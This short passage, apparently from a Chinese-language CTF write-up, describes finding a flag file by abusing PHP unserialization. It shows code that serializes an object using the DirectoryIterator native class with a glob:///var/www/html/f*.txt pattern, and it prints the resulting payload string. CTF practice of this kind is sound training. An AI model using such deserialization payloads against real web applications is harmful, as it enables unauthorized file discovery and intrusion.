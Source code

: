解密读内容

![image-20220522125458491](/upload/img/image-20220522125458491.png)

```php
<?php
$a = 'flag在当前目录下以字母f开头的txt中,无法爆破出来';
想办法读当前目录，想到用原生类
```

```PHP
<?php

class a{
    public $un0="DirectoryIterator";//遍历指定目录下的所有文件的原生类，通过Givemeanew方法中的实例化
    public $un1="glob:///var/www/html/f*.txt";//查找匹配的文件路径模式匹配提示的文件
    public $un3="unserialize";
}
$a=new a();
echo serialize($a);
//O:1:"a":3:{s:3:"un0";s:17:"DirectoryIterator";s:3:"un1";s:27:"glob:///var/www/html/f*.txt";s:3:"un3";s:11:"unserialize";}
```
